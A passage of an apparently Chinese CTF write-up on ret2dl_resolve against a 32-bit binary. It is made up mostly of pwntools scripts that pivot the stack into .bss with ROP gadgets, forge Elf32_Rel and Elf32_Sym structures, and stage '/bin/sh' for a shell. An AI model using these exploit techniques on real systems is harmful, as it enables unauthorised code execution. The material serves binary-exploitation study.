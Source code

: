 ```python
fake_r_info=(dynsym_index<<0x8)|0x7                      #根据fake_Elf32_Sym反推r_info
fake_write_Elf32_Rel=p32(fake_r_offset)+p32(fake_r_info) #伪造write的Elf32_Rel结构体

payload2=p32(0xdeadbeef)+p32(jmp_to_dl_runtime_resolve_addr)+p32(fake_reloc_arg)+p32(0xdeadbeef)
payload2+=p32(1)+p32(bss_addr+0x300+80)+p32(len(string)) #len("/bin/sh\x00")==0x10
payload2+=fake_write_Elf32_Rel
payload2+='b'*align
payload2+=fake_write_Elf32_Sym   #new

payload2+='c'*(80-len(payload2)) #注意把这里的偏移改一下，因为加了一个fake_write_Elf32_Rel
payload2+=string
payload2+='d'*(100-len(payload2))
#gdb.attach(p)
p.sendline(payload2)
p.interactive()
```

> ⚠️注意，在伪造fake_write_Elf32_Sym结构体时要注意这个结构体中每个成员的大小是有区别的，不是所有的成员都是p32，这个要根据成员的大小来定
>

### ![](https://cdn.nlark.com/yuque/0/2021/png/574026/1627990121410-48ac42e2-6624-40c9-bb38-b96585e4cffd.png)
#### Part4
既然在part3中可以伪造Elf32_Sym结构体，这里替换一下结构体中的st->name将其布置在stack上，这里简单的更改一下即可：<font style="background-color:#FADB14;"></font>

```python
#coding=utf-8
from pwn import *
context.log_level="debug"

p=process('./main_partial_relro_32')
elf=ELF('./main_partial_relro_32')
bss_addr=elf.bss()
read_plt=elf.plt['read']
write_plt=elf.plt['write']

pop_ebp_gadget=0x0804864b
leave_retn_gadget=0x08048465 #mov esp,ebp;pop ebp
three_pop_gadget=0x08048649

new_stack_esp=bss_addr+0x300
new_stack_ebp=bss_addr+0x500
payload1='a'*112+p32(read_plt)+p32(three_pop_gadget)+p32(0)+p32(bss_addr+0x300)+p32(0x100)#esp低地址；ebp高地址
payload1+=p32(pop_ebp_gadget)+p32(new_stack_esp)+p32(leave_retn_gadget) #eip->bss
p.recvuntil('Welcome to XDCTF2015~!\n')
p.sendline(payload1)

jmp_to_dl_runtime_resolve_addr=0x08048370
string="/bin/sh\x00"

fake_write_Elf32_Rel_addr=new_stack_esp+4*7 #一个p32占四字节，执行leave中的pop ebp后开始计算
                                            #fake_write_addr指fake_write_Elf32_Rel的地址
rel_plt_start_addr=0x8048324
fake_reloc_arg=fake_write_Elf32_Rel_addr-rel_plt_start_addr

#fake_r_offset=elf.got['write']  
#fake_r_info=0x607
#fake_write_Elf32_Rel=p32(fake_r_offset)+p32(fake_r_info) #伪造write的Elf32_Rel结构体

#fake_st_name=0x080482B8-0x0804826C  
real_dynsym_start_addr=elf.get_section_by_name('.dynsym').header.sh_addr
```